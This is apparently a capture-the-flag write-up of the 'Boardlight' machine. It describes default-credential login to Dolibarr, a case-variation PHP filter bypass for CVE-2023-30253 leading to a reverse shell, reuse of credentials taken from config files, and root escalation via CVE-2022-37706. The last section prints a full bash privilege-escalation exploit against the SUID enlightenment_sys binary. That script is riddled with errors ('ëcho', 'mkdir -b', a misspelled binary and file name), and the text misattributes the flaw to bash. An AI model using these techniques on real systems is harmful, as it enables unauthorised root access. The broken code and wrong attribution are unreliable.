 ```yaml
---
layout: post
title: "Boardlight 035d30a2de5d4052ac9b1c549f5e87b1"
date:   2025-07-12 12:05:57 -0400
categories: writeups
---
```


# Boardlight

# 1. Enumeration

We start with nmap scanning, two ports open, one of them a web application

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled.png' | relative_url }})

Let’s see what is this about, previously the dns recognition was unsuccessful, but thanks to the contact information we can see the domain

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_1.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_2.png' | relative_url }})

So we proceed to find a subdomain using three different tools

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_3.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_4.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_5.png' | relative_url }})

Dolibar sign-in as usually we need to discard obvious vulnerabilities as default credentials, and we bypass login interface

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_6.png' | relative_url }})

# 2. User flag

We’ve got the version of the software before, after searching on google we found there’s a vulnerability where someone with determine permissions can obtain RCE **(CVE-2023-30253)**

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_7.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_8.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_9.png' | relative_url }})

Go to create a new website 

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_10.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_11.png' | relative_url }})

The vulnerability consists in edit HTML source, apparently we can’t use php code because we don’t have those permissions but if we try to use variants like “Php, phP, pHp” this filter will be bypassed, using a normal reverse shell we could get a shell as `data`

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_12.png' | relative_url }})

Looking for config files where data has reading permissions we found credentials for the database

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_13.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_14.png' | relative_url }})

If we try to break into the database, it would be useless because it has tons of tables, and users registered are admin:admin that we guess before

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_15.png' | relative_url }})

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_16.png' | relative_url }})

Try to use those creds on ssh and got the user flag 

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_17.png' | relative_url }})

# 3.Priv esc

Using linpeas to enumerate the system we found a set uid binary in a path, casualty one of the directories of the path has almost the same of the machine it could be promising

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_18.png' | relative_url }})

There is a vulnerability

CVE-2022-37706 in bash, basically the system library function mishandles path names that begin with /dev/.. substring

```bash
#!/usr/bin/bash

#This code is trying to search a specific vulnerable SUID 
#if if find it, it try to leverage it to obtain full access

echo "CVE-2022-37706"
echo "[*]Trying to find the file of the vulnerable SUID"

#It search through the whole file system with string "enlightenment_sys"
#which has the following permises: SUID (-4000).
#Redirects all errors to /dev/null

file =$(find / -name enlightment_sys -perm -4000 2>/dev/null | head -1)

if[[ -z ${file} ]]
then 
	echo "[- Couldn't find the vulnerable SUID file...]"
	echo "[*] Enlightment should be installed on your system"
	exit 1
	
fi

echo "[+] Vulnerable SUID binery found!!"
echo "[+] Trying to pop up a root shell"

#It creates necessary directories to the exploit 
mkdir -b /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit 

ëcho "[+] Welcome to the rabbit holee!!"

${file} /bin/mount -o \noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,iud=(id -u),\"/dev/../tmp/;/tmp/expoit" /tmp///net

read -p "press any key to clean"

sleep 5 
rm -rf /tmp/exploit
rm -rf /tmp/net

echo -e "Done"

```

![Untitled]({{ '/assets/images/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1/f227c51a-c8ce-4be0-8d7b-148003591331-export-12cef38b-bf81-4c54-bfe4-89d0dcef79f1_Untitled_19.png' | relative_url }})
